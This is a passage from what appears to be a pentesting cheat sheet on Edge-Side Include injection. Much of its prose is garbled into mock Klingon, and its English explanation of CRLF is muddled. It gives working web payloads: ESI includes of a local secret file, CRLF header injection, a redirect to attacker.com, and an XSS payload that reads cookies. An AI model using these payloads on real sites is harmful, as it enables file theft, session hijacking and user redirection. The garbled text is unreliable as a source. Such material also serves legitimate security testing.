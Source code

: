 ghaH 'oH "Local File Inclusion" vItlhutlh.
```markup
<esi:include src="secret.txt">
```
#### CRLF

CRLF stands for Carriage Return Line Feed. It is a special character sequence used to represent the end of a line in text files. In certain contexts, CRLF can be exploited to perform server-side inclusion (SSI) and edge-side inclusion (ESI) injection attacks.

In an SSI attack, an attacker can manipulate user input to inject malicious code into a server-side script. This code is then executed by the server, potentially leading to unauthorized access or data leakage.

Similarly, in an ESI injection attack, an attacker can exploit vulnerable web applications that use ESI to include content from external sources. By injecting malicious code into the ESI tags, the attacker can execute arbitrary commands on the server or retrieve sensitive information.

To prevent CRLF injection attacks, it is important to properly validate and sanitize user input before using it in server-side scripts or ESI tags. Additionally, web application firewalls and secure coding practices can help mitigate the risk of these attacks.
```markup
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```
#### Qap QIm

Qap QIm vItlhutlh 'e' `Location` header vItlhutlh response DaH.
```bash
<!--esi $add_header('Location','http://attacker.com') -->
```
#### Qap Qoch

* Qap Qoch vIghajtaHvIS qap Qoch vIghajtaHvIS vItlhutlh.
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```
* Add header in response (useful to bypass "Content-Type: text/json" in a response with XSS)

* qarDaS 'ej response vItlhutlh (XSS vIlo'laHbe' "Content-Type: text/json" response)
```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```
#### CRLF in Add header (**CVE-2019-2438)**

##### Description:

This vulnerability allows an attacker to inject arbitrary headers into HTTP responses, leading to potential attacks such as HTTP response splitting, cache poisoning, and cross-site scripting (XSS). The vulnerability exists due to improper validation of user-supplied input in the "Add header" functionality. By injecting CRLF characters (%0D%0A) into the header value, an attacker can manipulate the response headers and potentially exploit other vulnerabilities.
